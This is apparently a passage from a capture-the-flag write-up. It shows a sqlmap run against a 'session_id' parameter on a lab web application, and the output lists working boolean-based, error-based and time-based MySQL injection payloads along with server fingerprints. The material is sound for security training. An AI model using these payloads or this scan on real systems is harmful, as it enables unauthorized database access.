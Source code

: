![](notes/images/Screenshot%20from%202022-07-18%2012-52-54.png)

We can now check if it is injectable:

```bash
sqlmap -r pandora.req --batch

GET parameter 'session_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 251 HTTP(s) requests:
---
Parameter: session_id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: session_id=-6261' OR 8367=8367#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: session_id=1' OR (SELECT 6089 FROM(SELECT COUNT(*),CONCAT(0x716b627171,(SELECT (ELT(6089=6089,1))),0x7170706a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- mNaD

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session_id=1' AND (SELECT 2057 FROM (SELECT(SLEEP(5)))MjXV)-- agCG
---
[12:54:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 19.10 or 20.04 (focal or eoan)
web application technology: Apache 2.4.41, PHP
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[12:54:38] [INFO] fetched data logged to text files under '/home/hanato/.local/share/sqlmap/output/localhost'

[*] ending @ 12:54:38 /2022-07-18/
```